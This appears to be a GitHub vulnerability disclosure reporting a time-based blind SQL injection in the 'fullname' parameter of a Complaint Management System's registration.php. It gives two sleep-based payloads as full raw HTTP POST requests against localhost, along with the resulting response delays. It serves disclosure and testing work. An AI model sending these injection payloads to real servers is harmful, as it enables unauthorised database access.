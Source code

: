 BUG_Author: mckayyang

Vulnerability File: /Complaint Management System/users/registration.php

POST parameter 'fullname' exists SQL injection vulnerability

Payload1:fullname=a' and (select 1 from (select(sleep(10)))x) and 't'='t

```
POST /Complaint%20Management%20System/users/registration.php HTTP/1.1
Host: localhost
Content-Length: 140
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/Complaint%20Management%20System/users/registration.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php
Connection: close

fullname=a%27+and+%28select+1+from+%28select%28sleep%2810%29%29%29x%29+and+%27t%27%3D%27t&email=b%40gmail.com&password=c&contactno=d&submit=
```

The server response time is 10 seconds

![image](https://github.com/HibuMk/bug_report/blob/main/sql1.png)

Payload2:fullname=a' and (select 1 from (select(sleep(15)))x) and 't'='t

```
POST /Complaint%20Management%20System/users/registration.php HTTP/1.1
Host: localhost
Content-Length: 140
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/Complaint%20Management%20System/users/registration.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php
Connection: close

fullname=a%27+and+%28select+1+from+%28select%28sleep%2815%29%29%29x%29+and+%27t%27%3D%27t&email=b%40gmail.com&password=c&contactno=d&submit=
```

The server response time is 15 seconds

![image](https://github.com/HibuMk/bug_report/blob/main/sql2.png)
